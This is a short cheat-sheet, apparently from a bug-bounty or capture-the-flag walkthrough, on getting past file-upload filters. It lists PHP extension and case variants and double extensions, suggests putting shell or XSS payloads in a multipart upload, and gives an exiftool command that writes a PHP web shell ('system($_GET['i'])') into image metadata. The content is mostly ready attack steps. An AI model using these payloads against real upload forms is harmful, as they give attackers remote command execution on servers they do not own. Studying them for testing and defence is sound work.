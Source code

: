     ### Tips for Magic Bytes
    
    - in boundery section of request for uploading image delete the half of boundry of image value and insert your payload (shell,javascript,XSS or HTML) and submit the upload
        - then check if upload was success?
    
    for more: [https://github.com/0xmaximus/Galaxy-Bugbounty-Checklist/blob/main/File Upload/README.md](https://github.com/0xmaximus/Galaxy-Bugbounty-Checklist/blob/main/File%20Upload/README.md)
    
    **Challenge #2**
    
    ```
    php2 ... php7
    phtml
    phps
    phar
    inc
    hphp
    
    ```
    
    **Challenge #3**
    
    ```
    PhP
    pHP
    pHp
    
    ```
    
    **Challenge #4/#5**
    
    ```
    my_file.jpg.php
    my_file.php.jpg
    
    ```
    
    **Challenge #6**
    
    1. Change request content type in burp suite intercept
    2. Inject code in image metadata using exiftool
    
    Remove file metadata:
    
    ```
    exiftool -all= pic.php.jpg
    ```
    
    Inject backdoor to image:
    
    ```
    exiftool -artist="<?php system($_GET['i']) ?>" pic.php.jpg
    ```
    
    ### Check for XSS payload During Uploading PDF
    
    you can download payloads from PAYLOADSALLTHEPDFs repo:
    